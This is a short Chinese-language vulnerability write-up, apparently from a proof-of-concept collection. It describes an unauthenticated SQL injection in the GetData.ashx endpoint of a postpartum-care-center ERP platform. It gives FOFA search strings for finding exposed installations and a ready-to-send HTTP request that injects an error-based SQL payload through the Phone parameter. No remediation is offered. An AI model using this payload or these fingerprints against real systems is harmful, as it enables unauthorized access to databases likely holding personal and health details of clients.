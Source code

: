 # 月子会所ERP管理云平台GetData.ashx存在SQL注入

月子会所ERP管理云平台 GetData.ashx 接口处存在SQL注入漏洞未经身份验证的恶意攻击者利用 SQL 注入漏洞获取数据库中的信息。

## fofa
```javascript
body="月子护理ERP管理平台" || body="妈妈宝盒客户端.rar" || body="Page/Login/Login3.aspx"
```

## poc
```javascript
GET /Page/BasicInfo/ashx/GetData.ashx?ChannelId=&ClientName=1&FitemId=null&Phone=1{{urlescape(' AND 4798 IN (SELECT (CHAR(113)+CHAR(118)+CHAR(113)+CHAR(122)+CHAR(113)+(SELECT (CASE WHEN (4798=4798) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(107)+CHAR(120)+CHAR(98)+CHAR(113)))-- uTFu)}}&RequestMethod=ApplyActivity&SaleId= HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

![image-20241227222800031](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412272228089.png)